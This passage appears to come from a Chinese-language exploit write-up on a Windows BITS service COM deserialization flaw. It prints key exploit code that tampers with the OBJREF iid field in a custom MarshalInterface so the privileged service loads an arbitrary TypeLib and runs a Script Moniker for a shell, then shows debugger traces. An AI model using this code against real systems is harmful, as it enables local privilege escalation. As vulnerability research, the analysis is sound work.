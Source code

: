 ```
			CLSID           clsid;
			unsigned long   cbExtension;
			unsigned long   size;
			ULONGLONG pData;
		} u_custom;
	} u_objref;
} OBJREF;

```
这里flags为OBJREF_STANDARD(0x01),表示使用标准Unmarshal方式(CStdMarshal),对应的下方联合体的是STDOBJREF,至于其他flags类型均有自定义的unmarshal方式,不在本文的讨论范围,请读者自行研究.而最终导致实现漏洞利用的是其中的iid字段,通过逆向研究发现替换这个iid(也就是oleview中找到的接口IID_Interface)就可以触发bits服务加载这个iid对应com组件对象的TypeLib(类型库),也就是说任意TypeLib反序列化.最终替换TypeLib文件构造为嵌套的TypeLib结构就可以运行Script Moniker来GetShell.这里附上漏洞利用关键代码:
```
virtual HRESULT STDMETHODCALLTYPE MarshalInterface(
		/* [annotation][unique][in] */
		_In_  IStream *pStm,
		/* [annotation][in] */
		_In_  REFIID riid,
		/* [annotation][unique][in] */
		_In_opt_  void *pv,
		/* [annotation][in] */
		_In_  DWORD dwDestContext,
		/* [annotation][unique][in] */
		_Reserved_  void *pvDestContext,
		/* [annotation][in] */
		_In_  DWORD mshlflags)
	{
		IStorage* stg;
		ILockBytes* lb;
		CreateILockBytesOnHGlobal(nullptr, TRUE, &lb);
		StgCreateDocfileOnILockBytes(lb, STGM_CREATE | STGM_READWRITE | STGM_SHARE_EXCLUSIVE, 0, &stg);
		ULONG cbRead;
		ULONG cbWrite;
		IStreamPtr pStream = nullptr;
		HRESULT hr = CreateStreamOnHGlobal(0, TRUE, &pStream);
		LARGE_INTEGER dlibMove = { 0 };
		ULARGE_INTEGER plibNewPosition;
		hr = CoMarshalInterface(pStream, IID_IUnknown, static_cast<IUnknownPtr>(stg), dwDestContext, pvDestContext, mshlflags);
		OBJREF* headerObjRef = (OBJREF*)malloc(1000);
		hr = pStream->Seek(dlibMove, STREAM_SEEK_SET, &plibNewPosition);
		hr = pStream->Read(headerObjRef, 1000, &cbRead);
		printf("[+]MarshalInterface: %ls %p\n", IIDToBSTR(IID_InterfaceFake).GetBSTR(), this);
        //IID_InterfaceFake就是找到的接口IID_Interface
		headerObjRef->iid = IID_InterfaceFake;
		hr = pStm->Write(headerObjRef, cbRead, &cbWrite);
		return hr;

	}
```
从调试结果可以看到CStdMarshal::UnmarshalInterface最终调用了LoadTypeLibEx,传入iid是IID_InterfaceFake(来自OBJREF),第二次调用LoadTypeLibEx加载了Script Moniker.证明确实可以HOOK高权限进程反序列化加载任意TypeLib
```
1: kd> bp OLEAUT32!GetTypeInfoOfIID
Breakpoint 0 hit
OLEAUT32!GetTypeInfoOfIID:
0033:000007fe`febf0140 4533c0          xor     r8d,r8d
//继续调试....
0: kd> p
OLEAUT32!GetTypeInfoOfIIDFwd+0x19:
0033:000007fe`febefd09 4889842480030000 mov     qword ptr [rsp+380h],rax
0: kd> r
```